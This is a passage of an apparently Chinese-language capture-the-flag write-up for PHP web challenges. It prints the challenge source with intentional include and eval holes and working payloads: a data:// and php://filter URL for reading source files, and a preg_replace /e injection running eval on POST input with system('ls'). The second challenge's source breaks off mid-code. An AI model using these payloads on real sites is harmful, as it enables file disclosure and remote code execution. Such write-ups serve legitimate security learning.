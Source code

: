 题目代码

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

使用`Payload`读取`next.php`

```
?text=data://text/plain,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php
```

这里主要涉及到`preg_replace`的一个RCE漏洞，参考：<https://xz.aliyun.com/t/2557>

```
preg_replace( '/(' . $re . ')/ei','strtolower("\\1")', $str);
```

主要就是构造`preg_replace('.*')/ei','strtolower("\\1")', {${此处填函数名}});`
大概就是把所有字符替换为函数执行结果。
但是`GET`传`.*=xxx`会出问题，自动将第一个非法字符转化为下划线（看链接），所以构造：

```
http://64ee684e-c7fe-41b5-b2a0-d0ae5c29e1f2.node4.buuoj.cn:81/next.php?\S*=${eval($_POST[1])}
```

同时`POST`一个`1=system('ls');`

## [GXYCTF2019]禁止套娃

`git泄露`

`无参RCE`

`git`下载后`index.php`内容如下

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
```